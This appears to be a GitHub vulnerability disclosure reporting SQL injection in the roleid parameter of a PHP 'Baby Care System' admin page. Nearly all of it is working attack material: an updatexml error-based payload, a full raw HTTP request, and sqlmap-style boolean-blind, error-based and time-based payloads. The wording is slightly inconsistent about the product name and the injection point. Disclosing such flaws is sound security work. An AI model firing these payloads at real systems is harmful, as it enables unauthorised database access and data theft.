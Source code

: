 ## Body Care System has SQL injection vulnerability

vendor: https://www.sourcecodester.com/php/14622/baby-care-system-phpmysqli-full-source-code.html

Vulnerability file: /BabyCare/admin/pagerole.php&action=display&value=1&roleid=

![image](https://user-images.githubusercontent.com/54017627/161251996-d95f8774-84ca-4523-9014-8338db680c44.png)

Vulnerability location: /BabyCare/admin.php?id=pagerole&action=display&value=1&roleid= //postid is Injection point

[+]Payload:  /BabyCare/admin.php?id=pagerole&action=display&value=1&roleid=3%27%20and%20updatexml(1,concat(0x7e,(select%20database()),0x7e),2)--+ //roleid is Injection point

```sql
GET /BabyCare/admin.php?id=pagerole&action=display&value=1&roleid=3%27%20and%20updatexml(1,concat(0x7e,(select%20database()),0x7e),2)--+ HTTP/1.1
Host: 192.168.1.19
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.84 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=v8g2iaa0tsnt5b01btt83eb7qo
Connection: close
```
![image](https://user-images.githubusercontent.com/54017627/161251808-c5216072-b958-4275-b435-c147b9c6856d.png)

```sql
---
Parameter: roleid (GET)
    Type: boolean-based blind
    Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause
    Payload: id=pagerole&action=display&value=1&roleid=3' RLIKE (SELECT (CASE WHEN (6967=6967) THEN 3 ELSE 0x28 END))-- nhxC

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: id=pagerole&action=display&value=1&roleid=3' AND (SELECT 2190 FROM(SELECT COUNT(*),CONCAT(0x7162627871,(SELECT (ELT(2190=2190,1))),0x717a766b71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- Gllb

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=pagerole&action=display&value=1&roleid=3' AND (SELECT 4825 FROM (SELECT(SLEEP(5)))FSej)-- xCer
---
```

![image](https://user-images.githubusercontent.com/54017627/161251755-89513aae-c605-46a8-a71c-1ec190a79c04.png)

